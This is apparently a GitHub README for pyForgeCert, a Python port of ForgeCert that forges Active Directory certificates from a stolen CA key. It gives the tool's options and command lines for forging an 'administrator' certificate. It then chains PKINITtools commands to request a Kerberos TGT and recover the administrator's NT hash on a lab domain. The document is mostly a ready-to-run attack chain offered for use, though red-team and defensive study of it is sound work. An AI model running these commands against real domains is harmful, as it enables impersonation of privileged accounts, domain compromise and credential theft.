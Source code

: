 # pyForgeCert
pyForgeCert is a Python equivalent of the original [ForgeCert](https://github.com/GhostPack/ForgeCert) written in C#.

## Usage
```
pyForgeCert

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file, default (PEM).
  -p IPASSWORD, --ipassword IPASSWORD
                        Password to the CA private key file.(PFX file).
  -s {User,Computer}, --subject {User,Computer}
                        Subject name in the certificate.
  -a ALTNAME, --altname ALTNAME
                        UPN of the user to authenticate as.
  -o OUTPUT, --output OUTPUT
                        Path where to save the new .pfx certificate.
  -op OPASSWORD, --opassword OPASSWORD
                        Password to the .pfx file.
  -c CRL, --crl CRL     Ldap path to a CRL for the forged certificate.
  -pfx                  If the input file is PFX.
```

**Using PEM**
```
python pyForgeCert.py -i cert.pem -o admin.pfx
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061320030.png)

Default SubjectAltName is `administrator`, if you want to change it, use `-a`.

**Using PFX**
```
python pyForgeCert.py -i cert.pfx -o admin.pfx -pfx -p 123
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061322818.png)

Once you get the new pfx, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```
python tools/gettgtpkinit.py -cert-pfx admin.pfx -pfx-pass 123 cgdomain.com/administrator -dc-ip 10.211.55.200 admin.ccache
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061330730.png)


```
python tools/getnthash.py cgdomain.com/administrator -dc-ip 10.211.55.200 -k 62bcb453bb21d4f8dd04492dd01d61137cb95367ca7e47587251e0563e6460f7
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202108061333685.png)